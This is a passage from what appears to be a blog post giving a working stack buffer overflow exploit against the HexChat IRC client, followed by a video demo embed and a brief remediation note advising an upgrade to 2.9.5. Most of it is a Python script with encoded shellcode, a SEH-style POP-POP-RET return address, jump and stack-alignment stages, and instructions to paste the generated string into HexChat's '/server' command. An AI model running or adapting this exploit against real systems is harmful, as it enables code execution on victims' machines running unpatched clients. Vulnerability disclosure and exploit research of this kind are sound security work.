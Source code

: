 ```
"\x71\x6b\x4f\x36\x51\x79\x50\x6b\x4c\x4e\x4c\x4c\x44\x39\x50"
"\x34\x34\x75\x57\x49\x51\x4a\x6f\x36\x6d\x67\x71\x4a\x67\x5a"
"\x4b\x5a\x54\x67\x4b\x71\x6c\x61\x34\x34\x68\x32\x55\x6d\x31"
"\x6e\x6b\x33\x6a\x47\x54\x76\x61\x38\x6b\x71\x76\x4c\x4b\x64"
"\x4c\x52\x6b\x4e\x6b\x71\x4a\x67\x6c\x67\x71\x4a\x4b\x4e\x6b"
"\x74\x44\x4c\x4b\x76\x61\x69\x78\x4e\x69\x62\x64\x66\x44\x47"
"\x6c\x63\x51\x5a\x63\x6e\x52\x33\x38\x61\x39\x69\x44\x6b\x39"
"\x59\x75\x6c\x49\x58\x42\x73\x58\x4e\x6e\x72\x6e\x56\x6e\x58"
"\x6c\x62\x72\x4d\x38\x4f\x6f\x6b\x4f\x69\x6f\x69\x6f\x4f\x79"
"\x61\x55\x75\x54\x6d\x6b\x31\x6e\x4e\x38\x79\x72\x70\x73\x6f"
"\x77\x45\x4c\x45\x74\x70\x52\x39\x78\x6c\x4e\x4b\x4f\x49\x6f"
"\x59\x6f\x6f\x79\x43\x75\x55\x58\x73\x58\x62\x4c\x70\x6c\x51"
"\x30\x77\x31\x53\x58\x67\x43\x54\x72\x66\x4e\x61\x74\x71\x78"
"\x52\x55\x44\x33\x62\x45\x61\x62\x6d\x58\x51\x4c\x75\x74\x57"
"\x7a\x4c\x49\x58\x66\x73\x66\x6b\x4f\x30\x55\x47\x74\x6b\x39"
"\x4f\x32\x72\x70\x4d\x6b\x39\x38\x6d\x72\x72\x6d\x4f\x4c\x4b"
"\x37\x35\x4c\x67\x54\x30\x52\x5a\x48\x75\x31\x39\x6f\x6b\x4f"
"\x39\x6f\x33\x58\x42\x4f\x34\x38\x53\x68\x31\x30\x72\x48\x35"
"\x31\x73\x57\x61\x75\x62\x62\x35\x38\x72\x6d\x72\x45\x54\x33"
"\x62\x53\x54\x71\x69\x4b\x6f\x78\x33\x6c\x75\x74\x54\x4a\x6f"
"\x79\x78\x63\x61\x78\x72\x78\x45\x70\x77\x50\x75\x70\x70\x68"
"\x72\x6d\x50\x53\x37\x36\x77\x51\x70\x68\x43\x42\x30\x6f\x42"
"\x4d\x71\x30\x35\x38\x52\x4f\x66\x4c\x31\x30\x61\x76\x61\x78"
"\x71\x58\x50\x65\x42\x4c\x32\x4c\x55\x61\x5a\x69\x6e\x68\x72"
"\x6c\x61\x34\x44\x50\x4f\x79\x4d\x31\x56\x51\x4b\x62\x33\x62"
"\x61\x43\x46\x31\x52\x72\x39\x6f\x58\x50\x46\x51\x49\x50\x42"
"\x70\x69\x6f\x36\x35\x34\x48\x41\x41"
)
junk2 = "A"*(13306-len(shellcode))
stage1 = "\x4c\x4c\x77\x21" # 21 byte jump (JA)
ret = "\x63\x64\x62\x68" # ASCII PPR
junk3 = "C"*29
stage2 = "\x61"*38 # POPAD x 38
stage2 += "\x54" # PUSH ESP
stage2 += "\xE9" # RETN # This byte is a bad char, but gets converted to RETN and \x88
junk4 = "D"*11586

print "Copy this text, and enter into HexChat's textbox: \"/server [string]\"" 
print junk1 + shellcode + junk2 + stage1 + ret + junk3 + stage2 + junk4
```

## Demo time!

Here is a video demo of the exploit working with a simple messagebox payload.
<object class="BLOGGER-youtube-video" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0" data-thumbnail-src="http://i.ytimg.com/vi/izmMjz_g-84/0.jpg" height="266" width="320"><param name="movie" value="http://www.youtube.com/v/izmMjz_g-84?version=3&f=user_uploads&c=google-webdrive-0&app=youtube_gdata" /><param name="bgcolor" value="#FFFFFF" /><param name="allowFullScreen" value="true" /><embed width="320" height="266"  src="http://www.youtube.com/v/izmMjz_g-84?version=3&f=user_uploads&c=google-webdrive-0&app=youtube_gdata" type="application/x-shockwave-flash" allowfullscreen="true"></embed></object>

## Remediation

It's suggested that all users upgrade to 2.9.5 where this vulnerability has been fixed. HexChat is available here: http://hexchat.org/downloads.html
